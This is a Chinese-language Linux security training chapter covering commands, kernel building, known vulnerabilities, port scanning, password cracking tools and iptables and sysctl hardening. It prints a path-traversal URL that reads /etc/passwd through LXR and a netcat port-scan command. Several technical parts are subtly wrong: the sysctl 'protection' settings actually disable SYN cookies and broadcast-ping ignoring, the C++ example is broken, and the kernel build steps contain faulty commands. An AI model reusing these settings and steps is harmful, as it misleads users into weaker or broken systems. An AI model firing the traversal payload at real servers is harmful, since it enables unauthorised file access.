`find`：该命令帮助用户在系统中搜索文件和目录。如果用户想搜索所有名为 `myfile` 的文件，他或她输入 `find / -name myfile`。如果用户想搜索名为 `mydir` 的目录中的所有文件，他或她输入 `find mydir -name myfile`。

# 更改权限和所有权

`chmod` 命令用于更改文件或目录的权限。以下介绍了用户可以设置的不同权限：

- `r` = read = 4：
  - 如果将此权限应用于文件，用户可以查看内容。
  - 如果将此权限应用于目录，用户可以列出该目录中的文件。
- `w` = write = 2：
  - 如果将此权限应用于文件，用户可以修改该文件。
  - 如果将此权限应用于目录，用户可以添加或删除文件。
- `x` = execute = 1：
  - 如果将此权限应用于文件，用户可以运行该文件作为命令。
  - 如果将此权限应用于目录，用户可以访问其中包含的文件。

# Linux 网络命令

以下是一些 Linux 网络命令：

- `arp`：`arp` 命令显示 ARP 表并用于修改它。ARP（地址解析协议）表通常用于查找哪些物理地址解析为哪些 IP 地址。系统将数据包传输到特定的物理层地址。当用户通过以太网发送 IP 数据包时，系统会将其发送到直接连接的另一个机器的以太网地址。
- `ifconfig`：`ifconfig` 命令用于显示网络接口的当前配置。它也可用于设置接口的地址信息。标志 `-up` 和 `-down` 用于激活和停用单个接口的驱动程序。
- `netstat`：与 `nsstat` 命令相比，该命令提供了更多的信息。`nsstat` 命令显示内核中维护的与网络活动相关的统计值。`netstat` 命令向用户呈现 `/proc/net/` 文件的内容。它可以执行以下操作：
  - 提供当前活动的网络连接列表
  - 导出系统路由表
  - 呈现接口统计信息
  - 列出伪装连接
- `nslookup`：该命令用于执行 DNS（域名服务）查询。互联网包含一个名为 DNS 的大型数据库，它将基于文本的主机名转换为数字 IP 地址。在此最后一个组件中，名称用于标识解释服务器。该命令执行简单查询（主机名到地址，反之亦然）。
- `ping`：`ping` 命令向指定服务器发送测试数据包，以检查其是否响应正常。它发送回显请求，并列出接收到的响应及其往返时间。终止 `ping` 后，该命令会给出平均往返时间和丢包率。它还可以确定两个主机之间网络连接的问题。
- `ps`：该命令创建用户正在服务器上运行的所有现有进程列表。例如，它在终止内存中卡住的进程时很有帮助。
- `route`：该命令用于显示或修改路由表。当接口配置好后，机器可以从网络接收数据包，但问题在于将数据包发送到哪里。路由表用于确定数据包的发送目的地。系统会检查目标地址。如果目标地址正确，数据包将被发送。否则，将显示错误消息“不可达主机”。
- `shred`：该命令通过覆盖文件并销毁信息来安全地删除文件。
- `traceroute`：`ping` 命令提供两个主机之间网络路径的性能信息，而 `traceroute` 则显示实际路由。它创建一个列表，列出通往给定目的地的路径上的所有主机。

# Linux 目录

以下是 Linux 中的一些主要系统目录：

- `bin`：`bin` 目录包含日常使用的命令和实用程序。这些可执行文件是二进制文件。
- `sbin`：大多数系统管理程序存储在此目录中。
- `etc`：此目录包含 Linux 系统使用的大多数系统和配置文件。大多数文件是文本文件。
- `include`：包含文件是头文件，它们定义构建大多数标准程序所需的结构和常量。例如，用于 C 和 C++ 的头文件（如 `conio.h`、`math.h` 和 `stdio.h`）就存储在此目录中。
- `lib`：此目录包含系统模块、软件库以及由各种应用程序和系统本身共享的信息数据库。
- `src`：此目录包含系统软件的源代码文件。
- `doc`：此目录包含以多种文件格式存储的应用程序用户手册和文档。
- `man`：此目录包含提供命令详细信息的文件。
- `share`：此目录包含用户应用程序的配置文件和图形文件。

# 安装、配置和编译 Linux 内核

## 步骤 1：下载最新内核

- 以 root 身份登录。
- 将 tarball 复制到 `/usr/src`：`cp linux-2.4.2.tar.gz /usr/src`。
- 更改目录到 `/usr/src`：`cd /usr/src`。
- 将当前版本移动作为备份：`mv /usr/src/linux linux-X.X.X`。
- 解包 tarball：`tar -zxvf linux-2.4.2.tar.gz`。
- 移动新的内核源代码：`mv /usr/src/linux /usr/src/linux-2.4.2`。
- 为其创建软链接：`ln -s /usr/src/linux-2.4.2 /usr/src/linux`。

## 步骤 2：配置内核

- 更改目录到源代码目录：`cd /usr/src`。
- 输入 `make menuconfig` 或 `make xconfig`。

## 步骤 3：编译内核

- 输入 `make dep` 来编译内核。

## 步骤 4：清理编译过程中生成的文件

- 输入 `make clean`。

## 步骤 5：制作可启动的 Linux 镜像

- 输入 `make bzimage`。
- 为新安装制作模块：`make modules_install`。
- 将 `bzImage` 文件移动到内核的位置：`mv /usr/src/linux-2.4.2.17/arch/i386/boot/bzImage/ boot/vmlinuz-2.4.17`。

## 步骤 6：配置引导管理器

- 编辑文件 `/etc/lilo.conf`。如果使用 GRUB 作为引导管理器，则编辑 `/etc/grub.conf`。
- 添加行 `Mage= /boot/vmlinuz-2.4.17; label=linux-2.4.2.17; root= /dev/hda3; read-only`。
- 保存 `lilo.conf` 或 `grub.conf` 文件。
- 运行程序 `/sbin/lilo`。使用 GRUB 时不需要这样做。只需编辑 `grub.conf` 即可完成。
- 重启。

图 1-3 和 1-4 展示了配置和编译内核的截图。

# 如何安装内核补丁

- 从 <http://www.linux.org> 下载 Linux 内核补丁。
- 将下载的内核复制到 `/usr/src/linux` 目录。
- 导航到该目录。
- 使用 tar、gzip 或其他解压缩工具将补丁解压到 `/usr/src/linux` 目录。
- 名为 `patch-2.x.x` 或 `patch-2.x.x-y` 的文件将被解压到 `/usr/src/linux` 目录中。
- 要将补丁应用到内核，运行 `patch -p1 < patch-2.x.x` 或 `patch -p1 < patch-2.x.x-yy`。



**图 1-3** 这是配置和编译内核的截图。



**图 1-4** 编译内核时，用户可以选择网络支持的驱动程序。

# 在 Linux 中编译程序

### GNU 编译器集合 (GCC)

`GCC` 是一个命令行编译器。它可以用于编译和运行 C、C++ 和 FORTRAN 代码。许多新的 Linux 安装默认都包含 `GCC` 编译器的某个版本。

要编译一个程序，用户需要在源文件目录中输入 `g++ <FileName.cpp> -o <OutputFileName.out>`。`g++` 命令表示使用的是 C++ 编译器而不是 C 编译器。`FileName.cpp` 是要编译的文件。`-o` 标志用于命名输出文件。如果没有错误，`GCC` 会将用户返回到提示符。

### GCC 命令

考虑以下 C++ 程序，`hello.c`：

```cpp
#include<iostream.h>
int main ( )
{
  std:: cout << "Hello to the computer world! \n";
  return 0;
}
```


- 要编译代码，用户应输入 `gcc -Wall -o hello hello.c`，其中：
  - `-o` = 输出文件名
  - `-Wall` = 显示所有编译器警告
  - `hello.c` = 要编译的文件
- 要运行此程序，用户应输入 `./hello`。

图 1-5 展示了编译程序所涉及的一些组件以及它们如何相互作用。



### Make 文件

#### Make 简介

Make 被设计为一种用于生成编译代码的系统。它对系统管理员和开发人员都有用。有时，某些程序的编译命令可能很长。Make 通过将编译命令参数集中在一个文本文件中，简化了源文件的编译过程。

#### 运行 Make

Make 需要一个配置文件。一旦为项目创建了这个文件，用户就可以输入 `make` 来编译更改后的文件。此配置文件的常用名称是 `Makefile`。

例如，假设用户有一个名为 `face.cpp` 的图形程序，且编译行是 `g++ -o face face.cpp -L/usr/X11R6/lib -lm -lX11 -lgd -lg2`。用户将采取以下步骤：
- 创建一个名为 `Makefile` 的文件，其中包含以下行：
  `face: face.cpp g++ -o face face.cpp -L/usr/X11R6/lib -lm -lX11 -lgd -lg2`
- 通过使用命令 `make` 或 `make face` 来编译 face。

#### Make 安装命令

在编译、链接和安装程序的过程中，涉及四个主要命令：
- `configure`（可能不存在此项）：这基于名为 `Makefile.conf` 的文件构建一个新的 `Makefile`。
- `make`：`make` 实用程序处理程序的编译和链接。换句话说，`make` 将查找 `Makefile` 中的第一个目标并遵循说明。预期的最终结果是一个编译好的可执行程序。
- `make install`：`make install` 命令将编译的二进制文件放入从 `Makefile` 中获取的正确子目录中。
- `make clean`：此命令清理由编译和链接过程生成的临时文件。

# Linux 漏洞

核心 Linux 内核中未利用的漏洞数量正在增加。根据美国计算机紧急响应小组（CERT）的数据，2005 年期间，Linux 和 UNIX 共有 2,328 个漏洞，而 Microsoft Windows 有 812 个漏洞。任何给定的 Linux 项目的源代码都广泛传播，并且可供世界上每个攻击者获取。随着 Linux 普及度的增加，诸如开源开发模型等问题，从安全角度来看，将继续困扰 Linux。访问 `secunia.com` 查看有关 Linux 漏洞的最新统计数据。

许多软件包中宣布了漏洞，包括：
- Apache
- balsa
- BIND
- bugzilla
- cdrecord
- cfengine
- cron
- cups
- cvs
- Wireshark
- evolution
- exim
- fetchmail (许多)
- fileutils
- gdm
- ghostscript
- glibc
- gnupg
- gzip
- hylafax
- inetd
- iproute
- KDE
- Kerberos
- kernel
- lprng
- lsh
- lynx
- mailman
- man
- Mozilla
- mpg123
- MPlayer
- mutt
- MySQL
- OpenSSH
- openssl
- Perl
- pine
- PHP
- Postfix
- PostgreSQL
- Proftpd
- Python
- Rsync
- Samba
- Screen
- Sendmail
- Snort
- Stunnel
- Sudo
- Tcpdump
- Vim
- Webmin
- Wget
- wu-ftpd
- xchat
- XFree86
- Xinetd
- Xpdf
- zlib

一些常见的漏洞如下：
- `BIND`（*Berkeley Internet Name Domain*）漏洞：`BIND` 是一款流行的 DNS 软件，攻击者针对它来触发拒绝服务（DoS）事件。如果系统管理员未能及时更新其 `BIND` 版本，则容易受到进一步的攻击。
- Linux 交叉引用器（LXR）漏洞：Linux 交叉引用器（LXR）是一个用于索引和展示源代码库的软件工具集。LXR 主要与 Linux 工具集源代码一起使用，但它对其他源代码项目也很有用。它使用 Web 导航器来读取 Linux 内核源代码。它有助于通过传递变量 'v' 给脚本来导航不同的内核版本并获取版本号。要在没有过滤器的情况下打开文件，某些内容会被放置在 `.:` 特殊目录中。以下是一个利用调用的示例：
  `http://vulnerabile/source?v=.../..../..../..../..../...././etc/passwd%00.`
- Util-Linux 漏洞：本地用户可以利用 Util-Linux 漏洞执行未授权的权限操作，允许用户在未使用 `nousid` 选项的情况下重新挂载文件系统。Util-Linux 集合随 Linux 系统提供，并包含基本实用工具。此漏洞发生在 `mount` 和 `umount` 程序错误地检查 `setuid()` 和 `setgid()` 函数的返回值时。此漏洞可被利用来执行具有高权限的操作。
- Linux 内核能力漏洞：Linux 内核能力漏洞出现在试图将 root 权限分解为一系列能力的 `setcap()` 调用中。`setuid` 程序的能力可以被设置和修改，从而不向任何普通用户授予 root 权限。利用此漏洞，本地用户可以获取 root 权限。

# Chroot 技术

如果攻击者能够成功获取 root 用户权限，那么他或她将能够对该系统造成大量破坏。限制攻击破坏程度的一种方法是使用 chroot 技术。`chroot` 是一个 Linux 安全特性，它允许用户选择应用程序可以访问的目录。此功能限制了非认证服务和入侵者对进程的滥用对整个目录树的访问。如果攻击者能够发现网络服务中的漏洞，他或她将能够访问远程系统和文件系统。然而，如果攻击者能够发现本地漏洞，他或她将会尝试获取 root 访问权限。Root 拥有大量的权限和许多能力。以 root 身份运行的服务可以被利用以获取额外的能力。大多数黑客的目标是获取受攻击机器的 root 访问权限。Chroot 技术通过限制 root 进程的权限来防止这种情况。进程被限制的目录被称为 chroot “监狱（jail）”。例如，假设一个程序 `testscript.exe` 被限制在 `/usr/local/tester` 下的目录树的一部分。通过对 `testscript.exe` 进行 chroot 监狱设置，该进程将能够访问 `/usr/local/tester` 内的文件或目录。如果 `testscript.exe` 尝试访问文件 `/input.txt`，它实际上会访问位于 `/usr/local/tester/testscript/input.txt` 的文件。如果管理员想要运行程序 `testscript.exe`，他或她可以在访问之前通过发出命令 `chroot /usr/local/tester /bin/testscript` 对其进行 chroot 操作。这将首先将根目录更改为 `/usr/local/tester`，然后运行程序 `/bin/testscript`。

### 工具：Addjailsw

`Addjailsw` 是一个帮助自动创建 chroot 监狱的工具。它将常用的调试程序复制到监狱中。它还可以帮助在 chroot 监狱中创建新用户。类似的程序包括 Cell 和 Zorp’s Jailer。

# 为什么 Linux 会被入侵？

Linux 成为许多攻击目标的原因有很多。首先，Linux 是一个吸引人的目标，因为它在大量服务器上被广泛使用，使其成为事实上的骨干网络。其次，由于代码是免费提供的，更容易发现漏洞。第三，Linux 默认安装了大量的应用程序，使系统容易受到攻击。除非系统管理员小心地设置策略并更新程序，否则安全漏洞可能会蔓延。

一些预测问题的良好对策包括：
- 在程序中没有必要时，关闭 `suid` 和 `sgid` 权限。这可以防止攻击者利用缓冲区溢出升级他或她的权限。
- 诸如 `StackGuard`、`Libsafe` 和 `Openwall Project` 的非可执行堆栈内核补丁之类的软件。
- `StackGuard` 是一种编译器，通过增强程序来抵御堆栈破坏攻击。使用 `StackGuard` 编译的程序不需要任何源代码更改。它通过在返回指针旁边放置一个“金丝雀（canary）”字来工作。金丝雀字的改变表示攻击并终止程序。


Libsafe 是一个动态加载库，它检查对易受攻击的库函数的所有调用。它通过将易受攻击的函数替换为功能等效的函数来工作。它没有高性能开销，并且已知能够避免即使是未知的缓冲区溢出攻击。

Openwall Project 的非可执行堆栈内核补丁是 Linux 内核的一组安全特性，使堆栈不可执行。虽然它不能阻止所有缓冲区溢出攻击，但它可以向用户警告简单的尝试。

缓冲区溢出是漏洞的常见原因。必须采取一些安全措施来保护 Linux 操作系统免受已知或未知缓冲区溢出的利用。

# 如何对存在漏洞的程序应用补丁

用户可以审计开源程序中的漏洞和安全缺陷。用户可以检查其 Linux 发行版的首页以获取更新。他们还可以检查软件供应商的网站并查找补丁。这些包括：

- `LCLint` 检查 C 程序中的缺陷，如内存管理错误、不一致的数据共享、不正确的链接、解引用空指针等。
- `Cqual` 允许编码者定义类型限定符。它是一个类型检查器，执行限定符推断以检查注释。
- 安全粗糙审计工具（`RATS`）验证和审计 C、C++、Perl、Python 和 PHP 代码。它充其量只是一个初步检查，不能用作代码检查的替代。
- `Flawfinder` 审计代码中函数的安全缺陷，这些函数被发现特别容易受到缓冲区溢出（`strcpy()`）、格式错误（`printf()`）、竞态条件（`chmod()`）、shell 元字符问题（`system()`）、随机数生成（`random()`）以及其他问题的影响。
- `Spike` 用于协议分析并作为复现工具，而 `sharefuzz` 是一个使用 `LD_PRELOAD` 分析 suid 程序中缓冲区溢出的程序。

用户还可以使用运行在本地系统安全性上的系统扫描器，并识别潜在的安全漏洞。这些包括 `sXid`、`COPS`、`TAMU's Tiger`、`GNU Tiger`、`Nabou` 和 `LSAT`。

# 网络扫描

一旦知道目标系统的 IP 地址，攻击者就可以开始端口扫描过程，或者寻找系统中的漏洞。一个典型的系统有 2^16 − 1 个端口号，每个号码有一个 TCP 端口和一个 UDP 端口。这些端口中的每一个都是进入系统的潜在途径。Linux 上最流行的扫描工具是 `Nmap`。其他工具包括 `nescat` 和 `strobe`。

`Nescat` 可用于扫描高达 2024 的端口。`Nescat` 扫描每个端口并等待 10 秒超时。然后它显示结果。`Nescat` 可以使用以下命令启动：

```
nc -v -w 10 -z www.example.com 1-2024
```

`Strobe` 并行扫描端口，使用最大带宽同时消耗最少资源。`Strobe` 能够单独扫描 TCP 端口。然而，其开发者不再维护 `strobe`。

# Linux 中的 Nmap

`Nmap` 无疑是目前可用的最佳端口扫描器，此外还具有操作系统检测、RPC 识别和 ping 扫描的附加功能。`Nmap` 还附带一个前端，`Nmapfe`，赋予其图形用户界面。`Nmap` 还可以作为网络管理员有价值的诊断工具。

尽管 `Nmap` 功能强大，但仍有许多有效的措施可以防御 `Nmap` 扫描。可以配置防火墙来自动保护机器。`防火墙`是一种软件，旨在提供系统与网络之间的安全保护。诸如 `synlogger`、`Courtnet` 和 `Port Sentry` 之类的扫描记录器可以提醒管理员注意此类扫描。配置良好的入侵检测系统（如 `Snort`）还可以检测到其他隐蔽扫描，例如 FIN、Xmas 和 null 扫描。图 1-6 展示了 `Nmap` 的截图。

# 工具：Nessus

`Nessus`（见图 1-7）是一款漏洞扫描器。漏洞扫描器连接到目标系统以检查已知漏洞。它可以配置为执行多种攻击。

`Nessus` 自带一种名为 `NASL`（`Nessus` 攻击脚本语言）的编程语言，允许用户以最小的编码努力编写自定义攻击脚本。它采用客户端-服务器模型运行，其中 `Nessus` 服务器充当控制攻击的引擎。客户端是一个 GUI，帮助选择目标和方法。还有一个用 Java 编写的多平台客户端。客户端和服务器之间的所有通信都是加密的。`Nessus` 能够检测 UNIX、Windows 以及常用 Web CGI 脚本中的数百种漏洞。

此外，`Nessus` 数据库还能检测 DDoS 僵尸网络和木马。

# 端口扫描检测工具

在 Linux 平台上运行着几种扫描检测工具。以下是一些端口扫描检测工具。

```bash
# nmap -A -T4 scannet.nmap.org d02e
Starting Nmap 4.01 ( http://www.insecure.org/nmap/ ) at 2006-03-20 15:53 PST
Interesting ports on scannet.nmap.org (205.217.150.62):
(the 1867 ports scanned but not shown below are in state: filtered)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 3.9p1 (protocol 1.99)
25/tcp open smtp Postfix smtpd
53/tcp open domain ISC Bind 9.2.1
70/tcp closed gopher
80/tcp open http Apache httpd 2.0.52 (Fedora)
113/tcp closed auth
Device type: general purpose
Running: Linux 2.5.x
OS details: Linux 2.6.0 - 2.6.11
Uptime 26.127 days (since Wed Feb 22 11:39:16 2006)

Interesting ports on d02e.internal (192.168.12.3):
(the 1604 ports scanned but not shown below are in state: closed)
PORT STATE SERVICE VERSION
21/tcp open ftp Serv-U ftpd 4.0
25/tcp open smtp IMAIL NT-ESMTP 7.15 2015-2
80/tcp open http Microsoft IIS webserver 5.0
110/tcp open pop3 IMAIL pop3d 7.15 931-1
135/tcp open msrpc Microsoft wstack (task server - c:\winnt\system32)
139/tcp open netbios-ssn Microsoft Windows XP microsoft-ds
445/tcp open microsoft-ds Microsoft Windows XP microsoft-ds
1025/tcp open mrpc Microsoft Windows RPC
5500/tcp open vnc-http UltraVNC (Resolution 1024x800; VNC TCP port: 5900)

Device type: general purpose
Running: Microsoft Windows NT/2K/XP
OS details: Microsoft Windows 2000 Professional
Service Info: OS: Windows

Nmap finished: 2 IP addresses (2 hosts up) scanned in 42.291 seconds
```

图 1-6 这是 `Nmap` 报告的截图。



**图 1-7** 这是 `Nessus` 设置界面的截图。

## Klaxon

它是一款简单的扫描检测器，通过 `inetd` 运行。用户可以配置 `inetd` 监听未使用的各种端口。一旦建立连接，该工具通过 `syslog` 记录连接并退出。也可以发送 `inetd` 查询来发现连接远端的用户名。然而，该工具无法检测隐蔽扫描。

## Scanlogd

这是一款独立的扫描检测器，使用原始套接字、`libnids` 或 `libcap` 来监控传入连接。如果它在 3 秒间隔内检测到 7 个独特的特权端口（端口号 < 1024）、21 个独特的非特权端口（端口号 >=1024），或两者的加权组合，它就假设正在进行端口扫描。

扫描将通过 `syslog` 记录。如果在 20 秒内有 5 次扫描，报告将立即停止，以防止任何可能填满日志的 DoS 攻击。`syslog` 消息的形式如下：

> 源地址 到 目标地址 端口 端口,...., TCP标志 @时间

本地主机可能会为 `Nmap` 扫描生成如下 `syslog` 消息：`Scanlogd: 192.168.10.10 到 192.168.10.10 端口 3564, 845, 4330, 899, 654, 1037,....., TOS 00@19:45:34`.

## PortSentry


该工具的优势在于，它不仅检测扫描，还允许用户对源采取反制措施。该工具可以检测普通扫描以及隐蔽扫描。它作为攻击和潜在入侵的前兆发挥作用。`PortSentry`可以通过多种方式响应，包括以下：

- 可以通过`syslog`实用程序记录扫描。
- 可以在`/etc/hosts.deny`文件中添加条目，以禁止来自该主机的连接。
- 意识到系统上开放的可用端口可以启动扫描，以确定该主机正在运行哪些服务。
- 它监控`TCP`和`UDP`扫描，并检测诸如连接扫描、`SYN`扫描和`FIN`扫描等隐蔽扫描。

# LIDS（Linux 入侵检测系统）

`LIDS`有一个内置的端口扫描检测器，在内核中运行，并通过`syslog`记录任何违规主机。

# Linux 中的密码破解

## 工具：John the Ripper

`John the Ripper`旨在通过标准的猜测技术找到标准的`UNIX` 8 字符`DES`加密密码。该工具可以破解标准和双长度`DES`、`MDS`以及`Blowfish`算法。由于该工具可用于不同平台，因此可以在机器之间传输。用户可以指定要使用的单词表或规则。任何会话都可以暂停或重新启动，并且可以获取中断或正在运行的会话的状态。

还可以指定要针对的用户或组。它可以通过在命令行上传递密码文件来运行（这通常是`/etc/shadow`的副本）。由于其中包含加密的密码，因此应仅允许`root`读取。

图 1-8 展示了 `John the Ripper` 的截图。

## 工具：Slurpie

该工具可以在分布式环境中运行。它提供一个密码文件供程序在单个主机或多个主机上运行。因为它同时在多个主机上运行，所以可以显著加快破解过程。

# Linux 中的防火墙：IPTables

`Linux`在内核层面处理数据包过滤。进入或穿过系统的数据只有在匹配允许该数据包的规则集（称为过滤器）时才会通过。过滤器可以根据协议的、源和目标地址，或目标端口对数据包进行分类。

不同的内核使用不同的过滤程序。2.2 内核使用`IPChains`。自 2.4 内核起，过滤程序已变为`IPTables`。`IPTables`比`IPChains`拥有更多功能。



图 1-8 这是 `John the Ripper` 密码猜测界面。

要运行 `IPTables`，必须在内核中配置以下选项。`CONFIG_PACKET`选项允许应用程序和实用程序直接与各种网络设备交互。它简化了内置链（`INPUT`、`OUTPUT`和`FORWARD`）中数据包协商的行为。`iptables`命令用于配置`IP`过滤和网络地址转换（`NAT`）。数据包过滤和`NAT`功能是分开的。为此，有两个称为`filter`和`nat`的规则表。如果用户未指定`-t`选项来覆盖它，则使用`filter`表。

还提供了五个内置链。`INPUT`和`FORWARD`链可用于`filter`表，`PREROUTING`和`POSTROUTING`链可用于`nat`表，而`OUTPUT`链可用于两个表。除本地生成的数据包（在`OUTPUT`链中处理）外，所有连接跟踪都在`PREROUTING`链中处理。`IPTables`在`PREROUTING`链内完成所有状态重算。如果在流中发送第一个数据包，状态会在`OUTPUT`链中设置为`NEW`，当系统接收返回数据包时，门控会在`PREROUTING`链中更改为`ESTABLISHED`。如果本地机器不是第一个数据包的发起者，`NEW`状态会在`PREROUTING`链中设置。因此，所有状态更改和计算都在`nat`表的`PREROUTING`和`OUTPUT`链中完成。

## IPTables 的工作原理

除了能够根据`TCP`标志和`TCP`选项以及`MAC`地址进行过滤外，它还可以控制限速连接和记录功能。以下步骤展示了 `IPTables` 的工作方式：

1. 一个数据包进入网络接口。
2. 接口解包数据链路层信息。
3. 接口将数据包转发到内核。
4. 内核检查数据包并选择拒绝、丢弃或接受它。

图 1-9 展示了 `IPTables` 决策树。图 1-10 展示了数据包如何与 `IPTables` 交互。

## 工具：Netfilter

为了简化内核防火墙代码中数据报处理的某些方面，并创建一个更清晰、更灵活的过滤框架，`Paul Russell`创建了一个名为`Netfilter`的新框架。`IPTables`实用程序用于配置`Netfilter`过滤规则。其语法大量借用了`IPChains`命令，但其区别在于其功能可以在不重新编译的情况下扩展。它通过使用共享库来实现这一点。

`Netfilter`提供三种基本功能：

1. 接受数据包或允许数据包通过
2. 拒绝数据包并通知过滤规则的源
3. 丢弃数据包

## IPTables 命令

`IPTables`检查每个传入数据包并决定如何处理它。根据被监控的数据包类型以及对数据包采取的操作，可以使用多个表。`IPTables`命令的语法如下：

```bash
iptables [-t <table-name>] <command> <chain-name> <parameter-1> <option1> <parameter-n> <option-n>
```

以下命令配置 `IPTables` 允许防火墙接受经由接口到达、来自任何 `IP` 地址且目标为防火墙 `IP` 地址 `192.168.1.1` 的 `TCP` 数据包：

```bash
iptables -A INPUT -s 0/0 -i eth0 -d 192.168.1.1 -p TCP -j ACCEPT
```

以下命令对配置 `IPTables` 允许防火墙发送 `ICMP` 回显请求（ping），并相应地接受预期的 `ICMP` 回显应答：

```bash
iptables -A OUTPUT -p icmp --icmp-type echo-request -j ACCEPT
iptables -A INPUT -p icmp --icmp-type echo-reply -j ACCEPT
```



版权所有 © EC-Council

保留所有权利。严禁复制

### 图 1-9

这是一个 `IPTables` 决策树。



版权所有 © EC-Council

保留所有权利。严禁复制

### 图 1-10

此图展示了数据包如何与 `IPTables` 进行交互。

# 基本的 Linux 操作系统防御

`Linux`拥有许多内置的保护机制，网络管理员应通过`/etc/sysctl.conf`文件修改`/proc`文件系统下的系统内核参数来激活这些机制。


```text
# File:/etc/sysctl.conf
#-----------------------------
#Disable routing triangulation. Respond to queries out the same interface, not another. Helps to maintain state
#Also protects against IP spoofing
#-----------------------------
net/ipv4/conf/all/rp_filter=1
#
#Enable logging of packets with malformed IP addresses
#-----------------------------
net/ipv4/conf/all/log_martians=1
#
# Disable redirects
#-----------------------------
net/ipv4/conf/all/send_redirects=0
# Disable source routed packets
#-----------------------------
net/ipv4/conf/all/accept_source_route=0
#
# Disable acceptance of ICMP redirects
#-----------------------------
net/ipv4/conf/all/accept_redirects=0
#
# Turn on protection from Denial of Service (DOS) attacks
#-----------------------------
net/ipv4/tcp_syncookies=0
#
# Disable responding to ping broadcasts
#-----------------------------
net/ipv4/icmp_echo_ignore_broadcasts=0
#
# Enable IP routing. Required if your firewall is protecting a network
#NAT included
#-----------------------------
net/ipv4/ip_forward=0
```

# 工具：SARA（安全审计员研究助手）

安全审计员研究助手（`SARA`）是一款第三代安全分析工具。它受类 GNU GPL 的开源许可协议保护。它基于 `SATAN`（安全管理员网络分析工具）模型构建。它通过网络开发人员的协作进行更新，以应对最新的威胁。

以下是 `SARA` 的部分功能：

- 运行于 UNIX、Linux、MAC OS X 和 Windows 系统
- 支持 FBI/SANS 前 20 大共识
- 能够适应多种防火墙环境
- 支持远程自扫描和 API 功能
- 拥有企业搜索模块
- 支持独立或守护进程模式运行



- 经过 SANS/SIOTS 认证
- 提供用户扩展支持
- 提供用于第三方应用程序的插件功能
- 提供用于 SMB 安全分析的 SAMBA 透明接口

# 工具：Netcat

`Netcat`（图 1-11）是一种网络实用工具，它可以利用 TCP/IP 或 UDP 在网络连接上读取和写入数据。它旨在成为一种可靠的后台工具，可直接使用，也可以轻松由其他程序和脚本驱动。它是一个功能丰富的网络调试和探索工具；因此，它可以创建用户所需的任何类型的连接。它具有多种内置功能。

它提供了对以下重要特性的访问权限：

- 到任意端口的入站和出站连接，支持 TCP 或 UDP
- 内置端口扫描功能，带有随机化器
- 隧道模式，允许某些不同的隧道类型，如 TCP 或 UDP，可以识别所有网络参数
- 某些高级用法，如缓冲发送模式以及对传输和接收数据的十六进制转储

# 工具：Tcpdump

`Tcpdump` 是一种用于网络监控和数据采集的网络流量分析器，允许管理员转储网络上的流量。顾名思义，它将 TCP 流量“转储”到屏幕或文件中以备后续使用。`Tcpdump` 从默认网络接口读取流量，并将完整输出转储到控制台。它使用命令将 TCP 流量的行为更改为更易管理的形式。

